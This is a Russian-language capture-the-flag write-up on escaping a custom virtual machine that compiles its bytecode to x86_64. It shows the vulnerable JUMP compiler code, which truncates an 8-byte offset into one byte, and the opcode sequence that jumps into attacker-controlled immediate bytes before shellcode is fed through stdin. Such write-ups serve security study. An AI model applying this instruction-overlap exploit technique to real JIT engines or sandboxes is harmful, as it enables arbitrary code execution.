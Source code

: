 ![Task](task.png)

Таск на побег из виртуальной машины.
Программа может скомпилировать свои инструкции в стандартные инструкции x86_64 и запустить их в RWX сегменте (`0x400000000`). Данные хранятся в отдельном RW сегменте (`0x300000000`). Указатель на данные хранится в регистре `R15`, любое обращение к данным происходит через этот регистр. Машина поддерживает чтение символов из stdin в память через опкод `IOIN`.

# Уязвимость
Рассмотрим компиляцию инструкции `JUMP`:

```cpp
void JUMP::set(byte* code_mem, size_t pos) {
  value = code_mem[pos+1];
}

int JUMP::compile(byte* memory,size_t pos) {
  byte* current = Interpreter::code_memory+Interpreter::ip+2; //start opcode to count which number of bytes we should jump
  size_t jump_value = 0;
  for(size_t i = 0; i < value; i++) {
    byte opcode = *current;
    jump_value+=Interpreter::handlers.at(opcode)->get_compiled_size();
    current+=Interpreter::handlers.at(opcode)->get_size();
  }
  memory[pos++] = 0xeb;
  memory[pos] = jump_value-2;
  return 2;
}
```

Для того, чтобы рассчитать смещение по которому нужно прыгнуть в режиме выполнения машинного кода, компилятор проходит по каждой из перепрыгиваемых виртуальных инструкций и суммирует их размер после компиляции (`->get_compiled_size()`).
Затем это 8-байтовое значение записывается в память как... байт. Этот байт можно переполнить и перепрыгнуть на нелегитимный адрес, например в середину другого опкода.

# Экплуатация
Задача - получить такой `jump_value`, чтобы в результате переполнения опкод `jmp` прыгал в середину другого опкода, в место, где будут контролируемые нами данные.
Для хранения контролируемых данных я использую опкод `MOVRM`, так как он позволяет разместить 4 байтовое число в скомпилированном коде:
```cpp
int MOVRM::compile(byte* memory,size_t pos) {
  memory[pos++] = 0x49;
  memory[pos++] = 0x8d;
  memory[pos++] = 0x87; //lea rax, [r15+addr], r15 contains data memory;
  *(uint32_t*)(memory+pos) = addr;
  pos+=4;
  ...
```

В самих контролируемых данных будет инструкция `mov R15, RAX` так как на момент старта выполнения в регистре `RAX` хранится указатель на сегмент данных.

Методом проб и ошибок получилось подобрать нужное смещение и нужные опкоды после `JUMP` для того, чтобы прыгнуть внутрь `MOVRV`:
```
JUMP,0x21
MOVRR,0,0
MOVRR,0,0
MOVRV,1,0xc7894990
IOIN,ff,1c
IOIN,0,0
IOIN,0,0
IOIN,0,0
...
```

Для облегчения задачи можно составить таблицу размеров инструкций после компиляции:
```
MOVRR = 2
MOVRV = 5
MOVRM = 9
MOVMR = 9
ADDRR = 2
ADDRV = 6
XORRR = 2
XORRV = 6
CMPRR = 2
JUMP  = 2
JE    = 2
JL    = 2
IOOUT = 21
IOIN  = 17
```

`MOVRR` в данном случае используется для отступов.

Вот, что мы имеем в gdb:
![gdb](gdb.png)
![gdb2](gdb2.png)

Далее записываем шеллкод в stdin. Вот и все.
